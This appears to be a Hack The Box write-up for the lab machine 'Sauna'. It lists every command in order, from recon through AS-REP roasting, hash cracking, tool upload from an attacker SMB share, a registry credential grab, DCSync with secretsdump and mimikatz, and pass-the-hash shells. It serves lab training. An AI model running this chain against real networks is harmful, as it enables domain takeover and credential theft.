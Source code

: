 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)

## 🧰 Tools Used

- `nmap`
- `ldapsearch`
- `dig`
- `kerbrute`
- `GetNPUsers.py` (from Impacket)
- `hashcat`
- `evil-winrm`
- `smbserver.py` (Impacket)
- `winPEAS.exe`
- `BloodHound`, `SharpHound.exe`, `neo4j`
- `secretsdump.py` (Impacket)
- `mimikatz`
- `wmiexec.py`, `psexec.py` (Impacket)

---

## 📜 All Commands in Order

### 🔍 Recon

```bash
nmap -p- --min-rate 10000 10.10.10.175
nmap -p 53,80,88,135,139,389,445,464,593,3268,3269,5985 -sC -sV -oA scans/tcpscripts 10.10.10.175
```

### 🌐 [Web Enumeration](HTTP)

```bash
gobuster dir -u http://10.10.10.175/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o scans/gobuster-root -t 40
```

### 🖧 [SMB](SMB.md) Enumeration

```bash
smbmap -H 10.10.10.175
smbclient -N -L //10.10.10.175
```

### 📚 [LDAP](LDAP.md) Enumeration

```bash
ldapsearch -x -h 10.10.10.175 -s base namingcontexts
ldapsearch -x -h 10.10.10.175 -b 'DC=EGOTISTICAL-BANK,DC=LOCAL'
```

### 🌐 DNS Zone Transfer Attempt

```bash
dig axfr @10.10.10.175 sauna.htb
dig axfr @10.10.10.175 egotistical-bank.local
```

### 🔍 Kerberos User Brute-Force (User Enum)

```bash
kerbrute userenum -d EGOTISTICAL-BANK.LOCAL /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt --dc 10.10.10.175
```

### 🔐 AS-REP Roasting

```bash
GetNPUsers.py 'EGOTISTICAL-BANK.LOCAL/' -usersfile users.txt -format hashcat -outputfile hashes.aspreroast -dc-ip 10.10.10.175
```

### 🔓 Crack AS-REP Hash

```bash
hashcat -m 18200 hashes.aspreroast /usr/share/wordlists/rockyou.txt --force
```

### 🧠 Evil-WinRM Shell as fsmith

```bash
evil-winrm -i 10.10.10.175 -u fsmith -p 'Thestrokes23'
```

### 📤 SMB Share to Upload winPEAS

```bash
smbserver.py -username df -password df share . -smb2support
```

From WinRM:
```powershell
net use \\10.10.14.30\share /u:df df
cd \\10.10.14.30\share
.\winPEAS.exe cmd fast > sauna_winpeas_fast
```

### 🔐 Find AutoLogon Creds (WinRM)

```powershell
cd HKLM:\software\microsoft\windows nt\currentversion\winlogon
get-item -path .
```

or

```powershell
reg query "HKLM\software\microsoft\windows nt\currentversion\winlogon"
```

### 🧠 Evil-WinRM Shell as svc_loanmgr

```bash
evil-winrm -i 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!'
```

### 🧠 BloodHound Collection

From WinRM:
```powershell
cd \\10.10.14.30\share
.\SharpHound.exe
```

### 🔓 DCSync with secretsdump

```bash
secretsdump.py 'svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
```

### 🛠️ DCSync with mimikatz (WinRM)

```powershell
upload /opt/mimikatz/x64/mimikatz.exe
.\mimikatz 'lsadump::dcsync /domain:EGOTISTICAL-BANK.LOCAL /user:administrator' exit
```

### 🖥️ Shell as Administrator with wmiexec

```bash
wmiexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff' -dc-ip 10.10.10.175 administrator@10.10.10.175
```

### 🖥️ Shell as SYSTEM with psexec

```bash
psexec.py -hashes 'aad3b435b51404eeaad3b435b51404ee:d9485863c1e9e05851aa40cbb4ab9dff' -dc-ip 10.10.10.175 administrator@10.10.10.175
```

### 🔑 Admin Shell via Evil-WinRM

```bash
evil-winrm -i 10.10.10.175 -u administrator -H d9485863c1e9e05851aa40cbb4ab9dff
```
